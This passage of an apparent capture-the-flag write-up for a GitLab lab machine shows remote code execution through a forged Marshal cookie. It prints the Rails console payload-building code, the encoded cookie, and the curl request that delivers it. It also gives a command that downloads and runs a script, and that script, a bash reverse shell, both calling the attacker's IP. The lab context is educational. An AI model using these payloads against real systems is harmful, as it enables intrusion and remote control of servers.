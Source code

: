       ports:
        - '80:80'
        - '443:443'
        - '2224:22'

      volumes:
        - '${GITLAB_HOME}/config:/etc/gitlab'
        - '${GITLAB_HOME}/logs:/var/log/gitlab'
        - '${GITLAB_HOME}/data:/var/opt/gitlab'
        - '${GITLAB_HOME}/config/ssl:/etc/gitlab/ssl'

### RCE

We got a shell on out gitlab docker and overwrite
`/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` with the downloaded one.
Then we use `gitlab-rails console` to reproduce the lines in the
[hackerone report](https://hackerone.com/reports/827052)
to create a Marshalled payload within a cookie. Our first payload is a simple
`wget` targeting our own python server.

    :::text
    request = ActionDispatch::Request.new(Rails.application.env_config)
    request.env["action_dispatch.cookies_serializer"] = :marshal
    cookies = request.cookie_jar
    irb(main):014:0> erb = ERB.new("<%= `wget http://10.10.14.51:8000/p0wn` %>")
    depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
    cookies.signed[:cookie] = depr
    puts cookies[:cookie]
    BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGB3Z2V0IGh0dHA6Ly8xMC4xMC4xNC41MTo4MDAwL3Awd25gICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--e58cf8e3ef8e1b016de9b83cac7627d48ec17c45


We then use `curl` to send our request and got a hit on our web server.

    :::text
    curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGB3Z2V0IGh0dHA6Ly8xMC4xMC4xNC41MTo4MDAwL3Awd25gICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--e58cf8e3ef8e1b016de9b83cac7627d48ec17c45"

We then change our payload to download a "reverse shell" and execute it:
`curl http://10.10.14.51:8000/rev.sh -o /tmp/rev.sh && chmod 777 rev.sh && bash /tmp/rev.sh`

The content of rev.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.51/4242 0>&1
